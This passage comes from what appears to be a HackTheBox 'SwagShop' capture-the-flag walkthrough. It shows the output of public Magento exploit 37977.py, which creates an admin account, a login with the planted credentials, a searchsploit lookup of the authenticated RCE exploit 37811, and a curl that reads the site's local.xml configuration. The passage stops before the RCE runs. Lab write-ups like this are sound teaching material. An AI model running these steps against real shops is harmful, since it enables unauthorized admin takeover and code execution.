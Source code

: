 ```python
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"
```

Run the script:

```bash
python2 37977.py
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/SwagShop]
└─$ python2.7 37977.py
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme

```

we check with url `http://swagshop.htb/index.php/admin`  , and login as forme:forme:

![[SwagShop-04.png]]

Very nice, we are in now~ We are onboarding in Magento Admin panel.

![[SwagShop-05.png]]

#### 37811.py (Authenticated) Remote Code Execution

Now that I’m authenticated as administrator, there’s another exploit that will come in handy that I found with `searchsploit`:

```bash
searchsploit Magento
```

![[SwagShop-06.png]]

`Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution` was interesting and desire have a try.

```bash
searchsploit -m 37811.py
```

We set the username and password. And as script saids, we need update `install_date` by below commands:

```bash
curl -s swagshop.htb/app/etc/local.xml | grep date
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/SwagShop]
└─$ curl -s swagshop.htb/app/etc/local.xml | grep date
            <date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>

```
